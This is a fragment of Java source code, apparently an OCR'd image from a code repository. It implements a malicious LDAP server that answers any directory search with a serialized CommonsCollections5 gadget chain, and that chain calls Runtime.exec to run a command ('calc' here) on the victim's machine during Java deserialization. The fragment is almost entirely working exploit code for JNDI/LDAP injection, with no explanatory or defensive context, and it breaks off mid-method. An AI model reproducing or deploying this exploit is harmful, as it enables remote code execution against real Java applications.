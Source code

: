 ```php

            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();
        }

        private static class OperationInterceptor extends InMemoryOperationInterceptor {

            private URL codebase;

            public OperationInterceptor ( URL cb ) {
                this.codebase = cb;
            }

            @Override
            public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
                String base = result.getRequest().getBaseDN();
                Entry e = new Entry(base);
                try {
                    sendResult(result, base, e);
                }
                catch ( Exception e1 ) {
                    e1.printStackTrace();
                }
            }

            protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {

                e.addAttribute("javaClassName", "foo");
                e.addAttribute("javaSerializedData",CommonsCollections5());

                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }
        }

        private static byte[] CommonsCollections5() throws Exception{
            Transformer[] transformers=new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
            };

            ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
            Map map=new HashMap();
            Map lazyMap=LazyMap.decorate(map,chainedTransformer);
            TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
            BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
```